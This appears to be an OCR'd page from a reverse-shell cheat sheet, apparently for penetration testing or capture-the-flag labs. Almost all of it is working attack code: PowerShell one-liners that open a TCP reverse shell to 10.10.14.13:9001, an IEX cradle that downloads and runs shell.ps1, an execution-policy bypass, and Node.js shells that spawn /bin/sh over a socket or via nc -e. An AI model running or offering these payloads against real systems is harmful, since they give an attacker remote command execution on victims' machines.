 
## PowerShell Reverse Shells (Windows)

### Basic PowerShell
```powershell
# Simple PowerShell reverse shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Base64 encoded PowerShell
powershell -enc <base64_encoded_command>

# Download and execute
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/shell.ps1')"
```

### Advanced PowerShell
```powershell
# PowerShell with authentication bypass
powershell -ExecutionPolicy Bypass -File shell.ps1

# PowerShell one-liner (formatted)
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.13",9001);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

---

## Node.js Reverse Shells

### Basic Node.js
```javascript
# Simple Node.js reverse shell
node -e "require('child_process').exec('nc -e /bin/sh 10.10.14.13 9001')"

# Pure Node.js implementation
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.14.13", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```